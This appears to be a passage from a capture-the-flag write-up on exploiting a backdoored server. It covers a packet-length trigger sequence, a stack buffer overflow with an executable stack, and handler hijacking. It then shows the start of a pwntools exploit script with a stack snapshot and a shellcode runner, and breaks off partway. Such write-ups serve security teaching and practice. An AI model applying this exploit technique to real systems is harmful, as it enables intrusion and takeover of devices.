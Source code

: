 The backdoor is enabled if we send 8 packets in 4 seconds
where `packet[i]`'s length is `b"backdoor"[i]`.
Then, we can send a packet with `size=514` and trigger a stack bof with the packet content.
The address space is fixed and the stack is executable.
However, delicacy was needed because our goal is to implement a custom handler,
and the server must stay alive.
We implemented write-what-where gadget that preserves the stack layout,
overwrote hashmap entries for the existing handlers,
patch required code regions,
and redirected requests to `/action/backdoor` to the server under our control.

Here is our final exploit:

```python
import time

from pwn import *

connection_logger = getLogger("pwnlib.tubes.remote")
connection_logger.setLevel("warning")

bof_start = 0x60E4293C

stack_snapshot = """
 04 00 00 00  10 10 10 10  54 29 e4 60  bc 29 e4 60
 68 a9 e3 60  84 29 e4 60  84 29 e4 60  08 ac e4 60
 ff ff ff ff  bc 29 e4 60  68 a9 e3 60  c0 25 de 61
 00 00 00 00  44 2d 00 00  01 00 00 00  68 a9 e3 60
 62 61 63 6b  64 6f 6f 72  7c 29 e4 60  02 02 00 00
 00 00 02 02  08 42 9a 60  f0 28 cd 61  ff ff ff ff
 dc 26 cd 61  01 00 00 00  04 04 04 04  d4 29 e4 60
 30 cb 04 60  06 06 06 06  00 00 00 00  08 08 08 08
 08 42 9a 60  00 00 00 00  1f 00 00 60  01 00 00 00
 1f 00 00 20  11 11 11 11  00 00 00 00  00 00 00 00
 00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
 68 00 00 80  10 29 e4 60  00 00 00 00  e4 40 9a 60
 e4 40 9a 60  f0 29 e4 60  dc 40 9a 60  01 00 00 00
 94 a9 e3 60  94 a9 e3 60  f0 29 e4 60  00 00 00 00
 06 00 00 00  e8 a9 e3 60  65 72 78 00  00 00 00 00
 00 00 00 00  05 00 00 00  00 00 00 00  06 00 00 00
 00 00 00 00  09 00 00 00  00 00 00 00  00 00 00 00
 00 00 00 00  00 00 00 00  80 00 00 80  ac 2a e4 60
 b4 2a e4 60  cc 2a e4 60  b0 2a e4 60  00 00 00 00
 70 2a e4 60  ff ff ff ff  70 2a e4 60  70 2a e4 60
 01 00 00 00  84 2a e4 60  ff ff ff ff  f8 aa e4 60
 f8 aa e4 60  00 00 00 00  08 00 00 00  04 00 00 00
 ff ff 00 00  00 00 00 00  00 00 00 00  00 00 00 00
 f4 2a e5 60  f4 2a e5 60  fc 2b e5 60  b4 2a e5 60
 f4 2a e5 60  f4 2a e5 60  b4 2a e5 60  f4 2a e5 60
 00 00 00 00  00 00 00 00  08 80 00 80  a5 a5 a5 a5
 a5 a5 a5 a5  a5 a5 a5 a5  a5 a5 a5 a5  a5 a5 a5 a5
"""
stack_snapshot = bytes.fromhex(stack_snapshot)


def run_shellcode(shellcode):
    assert len(shellcode) % 4 == 0
    if len(shellcode) > 20:
        raise ValueError("shellcode must be <= 20 bytes")

    shellcode = bytearray(shellcode)
    while len(shellcode) < 20:
        shellcode += p32(0xE1A00000)  # nop
    assert len(shellcode) == 20

```